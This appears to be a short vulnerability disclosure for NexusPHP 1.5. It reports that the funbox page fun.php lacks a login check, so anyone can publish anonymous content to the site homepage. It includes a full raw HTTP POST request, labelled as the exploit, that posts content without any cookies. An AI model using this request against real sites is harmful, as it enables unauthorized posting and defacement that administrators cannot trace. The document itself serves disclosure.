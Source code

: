 # by burpheart


Just have access to the site to complete the attack.
#### Affected software: NexusPHP 1.5

#### Software Download Link: http://sourceforge.net/projects/nexusphp/
  
#### Github Repository https://github.com/xiaomlove/nexusphp

##  Vulnerability details

#### fun.php
Because the author forgot to add a login check, 
the funbox page fun.php can be accessed without logging in and can publish any content.  
Since there is no login to the site, the server records an empty publisher.
Administrators can't ban publishers either.
Funbox's content is displayed on the homepage and only 1 article can be published within 24 hours.
All users will see the published content.
#### exploit:
```
POST /fun.php?action=add HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Cookie: NO_NEED_ANY_COOKIES
Upgrade-Insecure-Requests: 1

subject=123123213213213&color=1&font=0&size=0&body=123123512323333

```
